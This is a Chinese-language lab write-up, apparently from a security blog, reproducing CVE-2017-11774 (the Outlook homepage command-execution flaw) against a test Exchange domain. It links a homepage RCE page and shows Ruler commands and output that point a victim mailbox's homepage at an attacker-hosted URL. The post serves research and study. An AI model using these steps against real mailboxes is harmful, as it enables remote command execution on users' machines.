





---
title: Outlook Homepage Vulner
date: 2018-05-30 19:28:00
categories:
   - 技术相关
tags:
   - 漏洞
   - Outlook homepage
   - 笔记
#summary_img: /images/material-xcx.png
---

## 0x00 环境介绍

域控制器 ： OWA2013DC - 10.1.0.100   域名：corp.contoso.com

Exchange服务器 ： OWA2013Server - 10.1.0.213    加入域

Kali ： 10.1.0.166   未加入域

虚拟机模式: hostonly

三台网关:10.1.0.100 

hosts: 10.1.0.213	corp.contoso.com	contoso.com		autodiscover.contoso.com

`CVE-2017-11774`

    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11774 

`Description`

    Microsoft Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 allow an attacker to execute arbitrary commands, due to how Microsoft Office handles objects in memory, aka "Microsoft Outlook Security Feature Bypass Vulnerability."

<!-- more -->

## 0x01 新建邮箱用户 (Exchange management shell)

New-Mailbox -Name 'crazy' -UserPrincipalName crazy@contoso.com

会自动创建域用户 crazy

登陆 

    https://localhost/owa/auth/logon.aspx?replaceCurrent=1&reason=2&url=https%3a%2f%2flocalhost%2fecp%2f

==> ok
         

## 0x02 windows上新建一个mailbox

填入邮箱及密码

## 0x03 触发homepage漏洞

    打开 crazy 邮箱 (outlook )
    -> 点击 inbox 并右键 Data File Properties 
      -> 写入 homepage内容 [outlookHomepageRCE](https://gist.githubusercontent.com/staaldraad/c7b857e9bd6fd332f6f1bd01a2160266/raw/16fb7bb5aac443f4541dd0557062445d128b9813/outlookHomepageRCE.html)
        -> crazy@corp.contoso.com ( 点击 inbox 弹出 notepad )
       

当然也可使用工具 Ruler ( kali )

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage add --url http://10.1.0.166/1.html
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Creating new endpoint
    [+] Verifying...
    [+] New endpoint set
    [+] Trying to force trigger

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy homepage display
    Password: 
    [+] Retrieving MAPI/HTTP info
    [+] Binding to RPC
    [+] Getting existing endpoint
    [+] Found endpoint: http://10.1.0.166/1.html
    [+] Webview is set as ENABLED
    

       
通过这个漏洞,可以执行命令...
       
## 0x04 还有恶意规则漏洞 (Ruler工具)

    /usr/local/go/bin/go run ruler.go -k --email crazy@corp.contoso.com -u crazy display
        Password: 
        [+] Retrieving MAPI/HTTP info
        [+] Binding to RPC
        [+] Retrieving Rules
        [+] No Rules Found

## 0x05 注

    此漏洞要知道邮箱账号密码
    此漏洞只针对未打补丁的outlook客户端 ( Outlook 2010 SP2, Outlook 2013 SP1 and RT SP1, and Outlook 2016 )

## 0x06 Reference

    https://github.com/sensepost/ruler/wiki/Rules
    https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/ 

